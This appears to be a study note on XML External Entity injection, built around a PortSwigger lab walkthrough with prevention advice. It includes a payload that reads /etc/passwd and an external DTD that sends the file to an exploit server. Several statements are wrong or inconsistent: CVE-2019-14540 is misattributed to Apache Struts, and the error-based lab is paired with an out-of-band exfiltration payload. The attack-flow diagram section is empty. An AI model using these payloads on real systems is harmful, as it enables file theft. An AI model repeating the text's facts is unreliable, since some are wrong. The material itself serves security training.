

## Introduction to XXE Injection

### What is XXE Injection?

XML External Entity (XXE) injection is a type of attack against an application that parses XML input. This vulnerability occurs when an application fails to disable external entity references in XML documents. An attacker can exploit this vulnerability to read local files, perform denial of service attacks, and even execute remote commands.

### Why Does XXE Matter?

XXE vulnerabilities can lead to significant security risks. They allow attackers to bypass security measures and gain unauthorized access to sensitive information. For instance, CVE-2019-14540 is a real-world example where a XXE vulnerability was exploited to read arbitrary files on a server, leading to potential data exfiltration.

### How Does XXE Work Under the Hood?

When an application processes XML input, it may include references to external entities. These entities can be defined within the XML document itself or referenced from external sources. If the application does not properly sanitize these references, an attacker can inject malicious content that triggers the parsing of external entities.

### Example of XXE Vulnerability

Consider the following XML input:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

In this example, the `SYSTEM` keyword indicates that the entity should be resolved from an external source, in this case, the `/etc/passwd` file. If the application does not disable external entity resolution, it will attempt to read the contents of `/etc/passwd`.

### Real-World Example: CVE-2019-14540

CVE-2019-14540 is a XXE vulnerability found in the Apache Struts framework. Attackers could exploit this vulnerability to read arbitrary files on the server, potentially leading to data exfiltration. This highlights the importance of securing applications against XXE attacks.

### How to Detect XXE Vulnerabilities

To detect XXE vulnerabilities, you can use tools like Burp Suite, which allows you to intercept and modify XML requests. You can also use automated scanners like OWASP ZAP, which can identify potential XXE vulnerabilities in your application.

### How to Prevent XXE Attacks

#### Secure Coding Practices

1. **Disable External Entity Resolution**: Ensure that your XML parser disables external entity resolution. This can be done by setting the appropriate configuration options in your XML parser library.

2. **Validate Input**: Validate all XML input to ensure it does not contain malicious content. Use libraries that provide robust validation mechanisms.

3. **Use Secure Libraries**: Use XML parsing libraries that are known to be secure and regularly updated. Libraries like `defusedxml` in Python provide safer alternatives to standard XML parsers.

#### Configuration Hardening

1. **Disable DTD Parsing**: Disable DTD parsing in your XML parser. This prevents the application from resolving external entities.

2. **Restrict File Access**: Restrict file access permissions to ensure that sensitive files cannot be accessed by external entities.

#### Secure Code Example

Here is an example of how to securely parse XML using Python's `defusedxml` library:

```python
import defusedxml.ElementTree as ET

def parse_xml(xml_data):
    try:
        root = ET.fromstring(xml_data)
        return root
    except ET.ParseError as e:
        print(f"Error parsing XML: {e}")
        return None

xml_data = """<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>"""

parse_xml(xml_data)
```

This code uses `defusedxml` to safely parse XML data, preventing external entity resolution.

### Lab Setup: Exploiting Blind XXE to Retrieve Data via Error Messages

In this lab, we will exploit a blind XXE injection to retrieve data via error messages. The lab environment is set up on the PortSwigger Web Security Academy.

#### Accessing the Lab

1. **Sign Up**: Visit `portswigger.net/web-security` and sign up for an account.
2. **Navigate to Lab**: Once logged in, navigate to the Academy section, select all labs, and search for "XXE Injection Labs". Select Lab No. 6 titled "Exploiting Blind XXE to retrieve data via error messages".

#### Understanding the Lab Environment

The lab environment includes a feature called "CheckStock" that parses XML input. However, the results are not displayed directly. Instead, the application triggers error messages that can be used to retrieve data.

### Step-by-Step Exploitation

#### Identifying the Vulnerable Parameter

1. **Access the Lab**: Open the lab in the built-in browser in Burp Suite.
2. **Identify the Parameter**: Click on "View Details" and then "CheckStock". Send the request to Repeater in Burp Suite.

#### Crafting the Malicious XML Payload

1. **Create an External DTD**: Host a malicious DTD on an exploit server. The DTD should reference a file on the server, such as `/etc/passwd`.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://your-exploit-server.com/dtd.dtd" >]>
<foo>&xxe;</foo>
```

2. **Host the DTD**: On your exploit server, create the `dtd.dtd` file with the following content:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'http://your-exploit-server.com/?data=%file;'>">
%eval;
```

This DTD references the `/etc/passwd` file and sends the contents to your exploit server.

#### Sending the Request

1. **Modify the Request**: In Burp Repeater, modify the XML payload to include the malicious DTD.
2. **Send the Request**: Send the modified request to the server.

#### Analyzing the Response

1. **Check the Server Logs**: Monitor the logs on your exploit server to see if the contents of `/etc/passwd` were successfully retrieved.
2. **Verify the Exploit**: Confirm that the data was exfiltrated via the error messages.

### Mermaid Diagram: XXE Attack Flow



### Common Pitfalls and Mitigations

#### Common Pitfalls

1. **Incomplete Validation**: Failing to validate XML input thoroughly can leave the application vulnerable to XXE attacks.
2. **Incorrect Configuration**: Misconfiguring XML parsers to allow external entity resolution can expose the application to XXE attacks.

#### Mitigations

1. **Regular Audits**: Regularly audit your application for XXE vulnerabilities using tools like Burp Suite and OWASP ZAP.
2. **Secure Coding Practices**: Implement secure coding practices to prevent XXE attacks, such as disabling external entity resolution and validating input.

### How to Prevent / Defend Against XXE Attacks

#### Detection

1. **Automated Scanners**: Use automated scanners like OWASP ZAP to detect potential XXE vulnerabilities.
2. **Manual Testing**: Perform manual testing using tools like Burp Suite to identify and exploit XXE vulnerabilities.

#### Prevention

1. **Disable External Entity Resolution**: Ensure that your XML parser disables external entity resolution.
2. **Validate Input**: Validate all XML input to ensure it does not contain malicious content.

#### Secure Code Fix

**Vulnerable Code**:

```python
import xml.etree.ElementTree as ET

def parse_xml(xml_data):
    try:
        root = ET.fromstring(xml_data)
        return root
    except ET.ParseError as e:
        print(f"Error parsing XML: {e}")
        return None

xml_data = """<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>"""

parse_xml(xml_data)
```

**Fixed Code**:

```python
import defusedxml.ElementTree as ET

def parse_xml(xml_data):
    try:
        root = ET.fromstring(xml_data)
        return root
    except ET.ParseError as e:
        print(f"Error parsing XML: {e}")
        return None

xml_data = """<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>"""

parse_xml(xml_data)
```

### Hands-On Practice

For hands-on practice, you can use the following labs:

- **PortSwigger Web Security Academy**: Lab No. 6 "Exploiting Blind XXE to retrieve data via error messages".
- **OWASP Juice Shop**: Explore the XXE injection challenges in the OWASP Juice Shop.
- **DVWA**: Use the Damn Vulnerable Web Application (DVWA) to practice XXE injection.

These labs provide a controlled environment to practice and understand XXE injection attacks in depth.

### Conclusion

XXE injection is a serious security vulnerability that can lead to significant data exfiltration and other security risks. By understanding the underlying mechanisms, detecting potential vulnerabilities, and implementing secure coding practices, you can effectively defend against XXE attacks. Always stay vigilant and keep your applications secure.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/07-Lab 6 Exploiting blind XXE to retrieve data via error messages/00-Overview|Overview]] | [[02-Blind XXE Injection|Blind XXE Injection]]
